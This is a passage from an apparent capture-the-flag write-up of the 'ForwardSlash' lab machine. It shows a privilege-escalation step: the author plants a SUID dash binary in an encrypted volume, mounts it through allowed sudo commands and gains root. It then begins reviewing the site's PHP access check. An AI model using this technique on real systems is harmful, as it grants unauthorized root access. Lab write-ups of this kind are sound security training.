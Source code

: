     
    
    root@kali# mount /dev/mapper/fsmal /mnt/
    

For a payload, I’ll add a copy of `dash` and make it SUID:

    
    
    root@kali# cp /bin/dash /mnt/
    root@kali# chmod 4777 /mnt/dash 
    root@kali# ls -l /mnt/dash
    -rwsrwxrwx 1 root root 121464 Jul  3 21:57 /mnt/dash
    

Now I’ll unmount and close it:

    
    
    root@kali# umount /mnt 
    root@kali# cryptsetup luksClose fsmal 
    

I’ll move this to ForwardSlash using `scp` into `/dev/shm`. Now I’ll use the
commands pain can run with `sudo` to mount the volume:

    
    
    pain@forwardslash:/dev/shm$ sudo /sbin/cryptsetup luksOpen mal.luks backup
    Enter passphrase for mal.luks: 
    pain@forwardslash:/dev/shm$ sudo /bin/mount /dev/mapper/backup ./mnt/
    

Now I’ll just run the SUID binary:

    
    
    pain@forwardslash:/dev/shm$ mnt/dash -p
    # id
    uid=1000(pain) gid=1000(pain) euid=0(root) groups=1000(pain),1002(backupoperator)
    

## Beyond Root

All of Beyond Root here is focused on digging into different aspects of the
web server.

### IP / Username Blocking

I was surprised when I could create the admin account and then access `/dev`
so I wanted to check out the source. The page starts with:

    
    
    <?php
    //include_once ../session.php;
    // Initialize the session
    session_start();
    
    if((!isset($_SESSION["loggedin"]) || $_SESSION["loggedin"] !== true || $_SESSION['username'] !== "admin") && $_SERVER['REMOTE_ADDR'] !== "127.0.0.1"){
        header('HTTP/1.0 403 Forbidden');
        echo "<h1>403 Access Denied</h1>";
        echo "<h3>Access Denied From ", $_SERVER['REMOTE_ADDR'], "</h3>";
        //echo "<h2>Redirecting to login in 3 seconds</h2>"
        //echo '<meta http-equiv="refresh" content="3;url=../login.php" />';
        //header("location: ../login.php");
        exit;
    }
    ?>
    <html>
            <h1>XML Api Test</h1>
            <h3>This is our api test for when our new website gets refurbished</h3>
            <form action="/dev/index.php" method="get" id="xmltest">